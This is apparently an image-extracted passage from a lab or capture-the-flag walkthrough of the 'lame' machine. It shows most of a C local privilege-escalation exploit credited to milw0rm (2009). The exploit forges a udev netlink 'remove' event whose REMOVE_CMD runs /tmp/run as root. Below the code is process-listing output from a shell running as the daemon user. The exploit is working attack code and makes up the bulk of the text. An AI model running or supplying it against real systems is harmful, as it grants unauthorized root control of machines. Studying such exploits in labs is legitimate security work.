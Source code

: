 ```c

	if ((stat("/etc/udev/rules.d/95-udev-late.rules", &st) == -1) &&
	    (stat("/lib/udev/rules.d/95-udev-late.rules", &st) == -1)) {
		err = "Required 95-udev-late.rules not found";
		printf("[-] Error: %s\n", err);
		exit(1);
	}

	if (stat("/tmp/run", &st) == -1) {
		err = "/tmp/run does not exist, please create it";
		printf("[-] Error: %s\n", err);
		exit(1);
	}
	system("chmod +x /tmp/run");

	memset(&address, 0, sizeof(address));
	address.nl_family = AF_NETLINK;
	address.nl_pid = atoi(argv[1]);
	address.nl_groups = 0;

	msg.msg_name = (void*)&address;
	msg.msg_namelen = sizeof(address);
	msg.msg_iov = &iovector;
	msg.msg_iovlen = 1;

	sock = socket(AF_NETLINK, SOCK_DGRAM, NETLINK_KOBJECT_UEVENT);
	bind(sock, (struct sockaddr *) &address, sizeof(address));

	mp = message;
	mp += sprintf(mp, "remove@/d") + 1;
	mp += sprintf(mp, "SUBSYSTEM=block") + 1;
	mp += sprintf(mp, "DEVPATH=/dev/foo") + 1;
	mp += sprintf(mp, "TIMEOUT=10") + 1;
	mp += sprintf(mp, "ACTION=remove") +1;
	mp += sprintf(mp, "REMOVE_CMD=/tmp/run") +1;

	iovector.iov_base = (void*)message;
	iovector.iov_len = (int)(mp-message);

	sendmsg(sock, &msg, 0);

	close(sock);

	return 0;
}

// milw0rm.com [2009-04-30]
```

```output
daemon@lame:/tmp$ ps -aux
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.3   2844  1692 ?        Ss   03:22   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S<   03:22   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S<   03:22   0:00 [migration/0]
root         4  0.0  0.0      0     0 ?        S<   03:22   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   03:22   0:00 [watchdog/0]
root         6  0.0  0.0      0     0 ?        S<   03:22   0:00 [events/0]
root         7  0.0  0.0      0     0 ?        S<   03:22   0:00 [khelper]
root        41  0.0  0.0      0     0 ?        S<   03:22   0:00 [kblockd/0]
root        64  0.0  0.0      0     0 ?        S<   03:22   0:00 [kseriod]
root       182  0.0  0.0      0     0 ?        S    03:22   0:00 [pdflush]
root       183  0.0  0.0      0     0 ?        S    03:22   0:00 [pdflush]
```